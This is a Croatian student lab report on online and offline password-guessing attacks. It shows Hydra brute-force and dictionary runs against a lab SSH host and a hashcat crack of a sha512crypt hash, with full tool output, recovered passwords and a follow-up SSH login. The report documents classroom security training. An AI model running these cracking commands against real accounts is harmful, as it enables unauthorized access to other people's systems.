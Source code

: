 # 5.Laboratorijska vježba(Online and Offline Password Guessing Attacks])

Cilj vježbe bio je napad nadocker zaštićen lozinkom.Napadali smo sutav online i offline.

Online napad se izvodio preko Usernamea i IP adrese koristeći podatke iz korištenog "riječnika-a”.

Offline metodom probijamo autentikaciju fokusirajući se na spremljene hash vrijednosti lozinki.

Za online napad bio nam je potreban nmap alat.

**ONLINE NAPAD**

```bash
sudo apt-get update
sudo apt-get install nmap

# Test it
nmap
```

![Untitled](5%20Laboratorijska%20vjez%CC%8Cba(Online%20and%20Offline%20Passwo%203b34154d74ab4583b353a0c18ac81b90/Untitled.png)

Sada pomoću Hydra alata pokusavamo pogoditi šifru koja je predefinirana u riječniku.

```bash
# hydra -l milic_jakov -x 4:6:a 10.0.15.1 -V -t 1 ssh
```

```bash
student@DESKTOP-7Q0BASR:/mnt/c/Users/A507/jmilic00$ hydra -l milic_jakov -x 4:6:a 10.0.15.1 -V -t 1 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2021-12-20 13:15:36
[DATA] max 1 task per 1 server, overall 1 task, 321254128 login tries (l:1/p:321254128), ~321254128 tries per task
[DATA] attacking ssh://10.0.15.6:22/
[ATTEMPT] target 10.0.15.1 - login "milic_jakov" - pass "aaaa" - 1 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "milic_jakov" - pass "aaab" - 2 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "milic_jakov" - pass "aaac" - 3 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "milic_jakov" - pass "aaad" - 4 of 321254128 [child 0] (0/0)
.
.
.

```

Budući da ovaj način je ima toliko permutacija da je jednostavno nemoguće naći(trajanje pronalađenja permutacija je jednak broju 26*26*26*26*[iteracija/sekundi]),koristimo već gotovi riječnik pomoću kojeg pronađemo puno lakše i brže pronaći lozinku.

```bash
hydra -l milic_jakov -P dictionary/g1/dictionary_online.txt 10.0.15.1 -V -t 4 ssh

Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2021-12-20 13:43:21
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 878 login tries (l:1/p:878), ~220 tries per task
[DATA] attacking ssh://10.0.15.6:22/
[ATTEMPT] target 10.0.15.1 - login "milic_jakov" - pass "kajjeg" - 1 of 878 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "milic_jakov" - pass "kajttg" - 2 of 878 [child 1] (0/0)
[ATTEMPT] target 10.0.15.1 - login "milic_jakov" - pass "kajtze" - 3 of 878 [child 2] (0/0)
[ATTEMPT] target 10.0.15.1 - login "milic_jakov" - pass "kajnek" - 4 of 878 [child 3] (0/0)
[ATTEMPT] target 10.0.15.1 - login "milic_jakov" - pass "kajlzj" - 5 of 878 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "milic_jakov" - pass "kajnpp" - 6 of 878 [child 1] (0/0)
.......

[22][ssh] host: 10.0.15.1   login: milic_jakov   password: kptrst
```

nakon otprilike 10-tak  minuta lozinka je bila pronađena.

![Untitled](5%20Laboratorijska%20vjez%CC%8Cba(Online%20and%20Offline%20Passwo%203b34154d74ab4583b353a0c18ac81b90/Untitled%201.png)

**OFFLINE NAPAD**

Sada se fokusiramo na spremljene hasheve na uređaju koje uspoređujemo pomoću hascat alata.

```bash
hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10
```

![Untitled](5%20Laboratorijska%20vjez%CC%8Cba(Online%20and%20Offline%20Passwo%203b34154d74ab4583b353a0c18ac81b90/Untitled%202.png)

Prosječno vrijeme pronalaženja lozinke je 50%, što je i vidljivo iz slučaja na donjem codu.

```bash
tudent@DESKTOP-7Q0BASR:/mnt/c/Users/A507/jmilic00$ hashcat --force -m 1800 -a 0 hash.txt dictionary/g1/dictionary_offline.txt --status --status-timer 10
hashcat (v4.0.1) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Core(TM) i7-7500U CPU @ 2.70GHz, 2048/7411 MB allocatable, 4MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt
* Uses-64-Bit

Password length minimum: 0
Password length maximum: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastical reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.
Watchdog: Temperature retain trigger disabled.

* Device #1: build_opts '-I /usr/share/hashcat/OpenCL -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=4 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3 -D DGST_ELEM=16 -D KERN_TYPE=1800 -D _unroll'
* Device #1: Kernel amp_a0.bcd87d4b.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: dictionary/g1/dictionary_offline.txt
* Passwords.: 50078
* Bytes.....: 350546
* Keyspace..: 50078
* Runtime...: 0 secs

- Device #1: autotuned kernel-accel to 44
- Device #1: autotuned kernel-loops to 46
$6$W.ZyReSnHfDg9rN/$zqQYP/KLxhVTPRD9S.0we7GiJ0F/stCkdaELqDuF5aa86cLQ0oNnOVGBTKkmEn/0benNRsrPJIBYv1XNqu29./:dscext=>

Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$W.ZyReSnHfDg9rN/$zqQYP/KLxhVTPRD9S.0we7GiJ0F/stC...qu29./
Time.Started.....: Mon Dec 20 14:18:29 2021 (1 min, 33 secs)
Time.Estimated...: Mon Dec 20 14:20:02 2021 (0 secs)
Guess.Base.......: File (dictionary/g1/dictionary_offline.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:      219 H/s (6.52ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 22567/50078 (45.06%)
Rejected.........: 0/22567 (0.00%)
Restore.Point....: 22439/50078 (44.8%)
Candidates.#1....: ztpnjb -> zhbaln
HWMon.Dev.#1.....: N/A

Started: Mon Dec 20 14:18:27 2021
Stopped: Mon Dec 20 14:20:03 2021
```

sada SSH prolazi autentikaciju te napadač može pristupiti sustavu.

Pristupili smo bazi nakon sto smo prosli kroz 45.06%. pokušaja. 

```bash
ssh milic_jakov@10.0.15.1
```

nakon unošenja passworda kojeg smo maloprije pronašli dobijemo pristup sustavu.

![Untitled](5%20Laboratorijska%20vjez%CC%8Cba(Online%20and%20Offline%20Passwo%203b34154d74ab4583b353a0c18ac81b90/Untitled%203.png)